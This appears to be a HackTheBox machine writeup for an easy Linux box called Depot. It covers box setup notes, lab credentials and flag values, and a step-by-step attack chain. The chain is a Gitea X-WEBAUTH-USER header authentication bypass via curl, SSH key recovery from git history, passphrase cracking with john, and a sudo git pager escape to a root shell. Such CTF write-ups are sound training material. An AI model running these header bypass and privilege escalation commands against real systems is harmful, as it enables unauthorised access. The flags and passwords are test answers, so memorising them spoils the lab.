# Depot

**HackTheBox Machine Writeup**
*Difficulty: Easy | OS: Linux (Ubuntu 24.04)*

---

## Introduction

Depot is an Easy-rated Linux machine designed around a realistic DevOps misconfiguration chain. The box highlights three real-world vulnerability classes: a critical Gitea authentication bypass (CVE-2026-20896) caused by a default Docker environment variable left in place, secret exposure through improper git history hygiene (storing an SSH private key in a committed `.env` file then removing it with `git rm`), and a privilege escalation via a sudo rule for `git` that was never revoked after deployment. The intent is to demonstrate how individually minor configuration oversights can chain together into full system compromise.

---

## Info for HTB

### Access

**Passwords / credentials:**

| User | Password |
|------|----------|
| marcus (SSH) | manchester (key passphrase) |
| root | DeployRoot2026 (account locked — sudo git escalation) |
| Gitea admin | CVE-2026-20896 — no password required |

### Key Processes

The following services run on the machine:

- **OpenSSH 9.6p1** on `0.0.0.0:22` — key-based authentication only (`PasswordAuthentication no`).
- **Nginx 1.24.0** on `0.0.0.0:80` — two virtual hosts: `depot.htb` (static landing page) and `git.depot.htb` (reverse proxy to Gitea on `127.0.0.1:3000`). Nginx forwards the `X-WEBAUTH-USER` header from the client directly to Gitea without stripping it.
- **Gitea 1.26.1** running inside a Docker container bound to `127.0.0.1:3000`. The Docker Compose environment sets `GITEA__security__REVERSE_PROXY_TRUSTED_PROXIES=*` (the default), which causes Gitea to trust any upstream proxy and accept the `X-WEBAUTH-USER` header as the authenticated identity — enabling the CVE-2026-20896 authentication bypass.

### Automation / Crons

No cron jobs or scheduled tasks are present on this machine.

```
crontab -l   # no crontab for marcus
ls /etc/cron.d/   # empty
```

### Firewall Rules

UFW is active with two allow rules (ports 22 and 80). All other inbound traffic is blocked by the default deny policy. There are no custom output rules.

| To | Action | From |
|----|--------|------|
| 22/tcp | ALLOW | Anywhere |
| 80/tcp | ALLOW | Anywhere |

### Docker

Gitea runs via Docker Compose. The configuration file is at `/opt/gitea/docker-compose.yml`. The critical misconfiguration is `GITEA__security__REVERSE_PROXY_TRUSTED_PROXIES=*` in the environment block:

```yaml
version: "3"
services:
  gitea:
    image: gitea/gitea:1.26.1
    container_name: gitea
    restart: always
    environment:
      - USER_UID=1000
      - USER_GID=1000
      - GITEA__server__DOMAIN=git.depot.htb
      - GITEA__server__ROOT_URL=http://git.depot.htb/
      - GITEA__server__HTTP_PORT=3000
      - GITEA__security__REVERSE_PROXY_TRUSTED_PROXIES=*
      - GITEA__security__REVERSE_PROXY_AUTHENTICATION_USER=X-Webauth-User
    ports:
      - "127.0.0.1:3000:3000"
    volumes:
      - /opt/gitea/data:/data
    healthcheck:
      test: ["CMD", "curl", "-f", "http://localhost:3000"]
      interval: 10s
      timeout: 5s
      retries: 6
      start_period: 20s
```

> ⚠️ **Do not update the `gitea/gitea` image past version 1.26.2.** CVE-2026-20896 was patched in 1.26.3. Updating will remove the foothold.

### Other

The sudo rule (`NOPASSWD: /usr/bin/git`) granted to marcus was intended for a one-time deployment that has long since completed. It was never revoked. This is the privilege escalation vector. **Do not remove the rule** — it is essential for the privesc step.

marcus's account has `PasswordAuthentication` disabled at the SSH level. The only way to log in as marcus is with the private key recovered from git history, passphrase-protected with `manchester`.

---

## Writeup

This writeup covers the full attack chain from initial reconnaissance to root flag retrieval. All commands can be copied and pasted directly. Screenshots are included for all major steps.

---

## Enumeration

### Port Scan

Run a full TCP port scan with service detection and default scripts. The `--min-rate 5000` flag speeds things up without generating excessive noise. Save the output for reference.

```bash
sudo nmap -sV -sC -p- --min-rate 5000 depot.htb -oN nmap_full.txt
```



Results show two open ports:

- `22/tcp` — OpenSSH 9.6p1 Ubuntu
- `80/tcp` — nginx 1.24.0

Only two attack surfaces: SSH (likely requires credentials) and a web server. Start with HTTP.

### Web Enumeration

Navigating to `http://depot.htb` loads a static "coming soon" landing page for a company called DepotSoft. No login forms, no links, no interactive functionality.



The company name and tagline ("Streamlined software delivery for modern teams") suggest DevOps tooling. Source code management infrastructure is likely running somewhere on this host.

### Virtual Host Enumeration

Since the main domain is a dead end, enumerate virtual hosts to look for hidden subdomains running on the same server:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -u http://depot.htb/ -H "Host: FUZZ.depot.htb" -fw 10 -o ffuf_vhost.txt
```



The scan returns an immediate hit: `git.depot.htb` returns HTTP 200 with a significantly different response size (14681 words vs the 10-word baseline), confirming a live subdomain.

Add it to `/etc/hosts`:

```bash
echo "10.10.11.XXX git.depot.htb" | sudo tee -a /etc/hosts
```



Visiting `git.depot.htb` reveals a self-hosted Gitea instance. The version number is visible in the page footer: **Gitea 1.26.1**.



---

## Foothold

### CVE Research

Gitea 1.26.1 is the target. Searching for known vulnerabilities against this specific version returns a critical result: **CVE-2026-20896**, a CVSS 9.8 authentication bypass.



The vulnerability exists because the official Gitea Docker image ships with `REVERSE_PROXY_TRUSTED_PROXIES=*` by default. With this setting active, Gitea trusts the `X-WEBAUTH-USER` HTTP header as proof of identity — a feature designed for environments where a trusted upstream proxy handles authentication. Since Nginx in this deployment forwards the client-supplied header directly without stripping it, any unauthenticated client can send `X-WEBAUTH-USER: admin` and Gitea will authenticate them as that user with no password required.



### Authentication Bypass Exploitation

Testing the vulnerability requires only a single HTTP request. The `-c` flag saves the session cookie for reuse; `-L` follows redirects; piping through `grep` confirms authentication:

```bash
curl -s -c /tmp/cookies.txt -H "X-WEBAUTH-USER: admin" http://git.depot.htb/ -L | grep -i "signed in as"
```



Response: "Signed in as admin". No credentials, no brute force — one HTTP header grants full administrative access.

### Repository Enumeration

Query the Gitea API to list all repositories on the instance:

```bash
curl -s -H "X-WEBAUTH-USER: admin" \
  "http://git.depot.htb/api/v1/repos/search?limit=50" | python3 -m json.tool | grep -E "full_name|private"
```



One repository: `marcus/depotsoft-config`, marked `private: true`. A private config repository is exactly where developers store credentials and environment files.

---

## Lateral Movement

### Cloning the Private Repository

The `X-WEBAUTH-USER` header works for git over HTTP too. Pass it via `--config http.extraHeader` to authenticate the clone as admin:

```bash
git clone http://git.depot.htb/marcus/depotsoft-config /tmp/depot_repo \
  --config http.extraHeader="X-WEBAUTH-USER: admin"

cd /tmp/depot_repo
git log --all --oneline
```



Four commits are present. One stands out immediately: "remove sensitive env file". A developer added something sensitive, realized the mistake, and ran `git rm` — not understanding that git history retains deleted file content permanently in the preceding commit object.

### Recovering the SSH Key from Git History

Run `git show` on the commit just before the deletion (`1adf3ac`) to recover the full `.env` file contents:

```bash
git show 1adf3ac:.env
```



The `.env` file contains database credentials, application settings, and critically — a full OpenSSH private key assigned to marcus. The developer stored the key directly in the file, committed it, then attempted to erase the evidence with `git rm`. The key survived in git history untouched.

Extract the key:

```bash
git show 1adf3ac:.env | grep -A 100 "PRIVATE KEY" | sed 's/SSH_PRIVATE_KEY="//;s/"$//' > /tmp/id_rsa
chmod 600 /tmp/id_rsa
```



### Cracking the SSH Key Passphrase

The private key is passphrase-protected. Convert it to a crackable format with `ssh2john`, then run John the Ripper against `rockyou.txt`:

```bash
ssh2john /tmp/id_rsa > /tmp/marcus.hash
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/marcus.hash
```



John cracks the passphrase almost instantly: **manchester**. A weak, common password near the top of `rockyou.txt`.

### SSH Login — User Flag

SSH in with the extracted key. Enter "manchester" when prompted for the passphrase:

```bash
ssh -i /tmp/id_rsa marcus@depot.htb
```



Authenticated as marcus. Read the user flag:

```bash
cat ~/user.txt
```



---

## Privilege Escalation

### Sudo Enumeration

First check — what can this user run as root:

```bash
sudo -l
```



Output: `(root) NOPASSWD: /usr/bin/git`. Marcus can run `git` as root without a password. `git` is a GTFObins binary that can execute arbitrary commands through its pager mechanism.

### GTFObins — sudo git

`git` can be exploited through its `core.pager` setting. When `git` invokes a pager to display output, that pager runs with the same privileges as `git` itself. Override `core.pager` with a shell command, then trigger it via `sudo git log`.

Since `man-db` is not installed, the standard `sudo git -p help` trick does not work directly. Workaround: initialize a temporary repo with a commit so `git log` has output to display, then force the pager to spawn a shell:

```bash
sudo git config --global core.pager 'sh -c "exec sh 0<&1"'
mkdir /tmp/r && cd /tmp/r
git config --global user.email "a@a.com"
git config --global user.name "a"
git init && git commit --allow-empty -m "x"
sudo git log
```



`sudo git log` triggers the pager, which executes `sh` as root. Confirmed by `id` returning `uid=0(root)`.

### Root Flag

```bash
cat /root/root.txt
```



---

## Credentials Summary

| Credential | Value | Notes |
|-----------|-------|-------|
| Gitea admin | admin | CVE-2026-20896 (no password) |
| SSH key passphrase | manchester | marcus@depot.htb — rockyou.txt |
| marcus account | DeployNow2026 | Locked — SSH key auth only |
| root account | DeployRoot2026 | Locked — sudo git escalation only |
| user.txt | bdd9257ee0114bf1bc07100ff6bb9089 | /home/marcus/user.txt |
| root.txt | 3f94b6044bea49b58cfb14d48365f101 | /root/root.txt |

---

## Patch Impact

| Component | Action | Impact |
|-----------|--------|--------|
| Gitea Docker image | Update to 1.26.3+ | CVE-2026-20896 patched — foothold broken |
| sudo git rule | Remove from sudoers | Privesc broken (not version-dependent) |
| SSH key in git history | Rotate key + filter history | Credential leak closed |

---

## Reviewer Notes

This machine may superficially resemble OpenSource (HTB, 2022) due to the presence of Gitea and SSH credential exposure via a repository. The attack chain is fundamentally different:

- Foothold relies entirely on **CVE-2026-20896** (disclosed June 2026, CVSS 9.8, actively exploited in the wild), not any application logic flaw.
- Gitea is exposed through an Nginx reverse proxy on port 80 (not directly accessible).
- The credential leak is a **private key embedded inside a `.env` file** recovered from git history — not a standalone key file stored in the repository tree.
- Privilege escalation uses **sudo git** (GTFObins) rather than a cron-triggered git hook.

> ⚠️ **Do not update Gitea beyond version 1.26.2.** The exploit path relies specifically on the vulnerable default configuration fixed in 1.26.3.
